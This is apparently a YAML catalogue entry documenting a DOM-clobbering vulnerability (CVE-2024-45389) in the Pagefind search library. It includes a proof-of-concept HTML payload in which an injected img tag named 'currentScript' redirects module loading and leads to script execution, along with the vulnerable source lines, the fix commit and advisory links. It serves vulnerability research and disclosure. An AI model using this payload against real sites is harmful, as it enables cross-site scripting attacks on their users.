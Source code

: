 ```yaml
---
description: Pagefind is a fully static search library that aims to perform well on large sites, while using as little of your users' bandwidth as possible, and without hosting any infrastructure.
github: CloudCannon/pagefind
gadgets:
  ≤v1.1.0:
    cve: CVE-2024-45389
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - img-tag
      - src-attr
      - name-attr
      - strict-dynamic-csp
      - before-lib-load
    pocs:
      - description: The [pagefind](https://github.com/CloudCannon/pagefind) library was loading modules using as a base the `document.currentScript.src` value on this regex `match(/^(.*\/)(?:pagefind-)?ui.js.*$/)[1]`.
        code: |
          <div id="search"></div>
          <script nonce="secret" type="module">
            import * as pagefinddefaultUi from 'https://cdn.jsdelivr.net/npm/@pagefind/default-ui@1.1.0/+esm';

            new pagefinddefaultUi.PagefindUI({ element: "#search", showSubResults: true });
            const inputElement = document.querySelector('.pagefind-ui__search-input.svelte-e9gkc3');
            if (inputElement) {
              inputElement.value = 'Your text here';
              inputElement.dispatchEvent(new Event('input'));
            }
          </script>

          <!-- user input -->
          <img name="currentScript" src="blob:[current-location]/assets/xss/ui.js">
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/Pagefind/pagefind/blob/8dc9eca357cee070ccc5592e268d86bc9259a883/pagefind_ui/default/ui-core.js#L5">https://github.com/Pagefind/pagefind/blob/8dc9eca357cee070ccc5592e268d86bc9259a883/pagefind_ui/default/ui-core.js#L5</a>

      ```javascript
      let scriptBundlePath;
      try {
        scriptBundlePath = new URL(document.currentScript.src).pathname.match(
          /^(.*\/)(?:pagefind-)?ui.js.*$/
        )[1];
      } catch (e) {
        scriptBundlePath = "/pagefind/";
      }
      ```

      Source: <a target="_blank" href="https://github.com/Pagefind/pagefind/blob/8dc9eca357cee070ccc5592e268d86bc9259a883/pagefind_ui/default/svelte/ui.svelte#L95">https://github.com/Pagefind/pagefind/blob/8dc9eca357cee070ccc5592e268d86bc9259a883/pagefind_ui/default/svelte/ui.svelte#L95</a>

      ```javascript
      imported_pagefind = await import(`${base_path}pagefind.js`);
      ```
    links:
      - https://github.com/Pagefind/pagefind/commit/14ec96864eabaf1d7d809d5da0186a8856261eeb
      - https://github.com/advisories/GHSA-gprj-6m2f-j9hx
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/pagefind.md
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
---
```

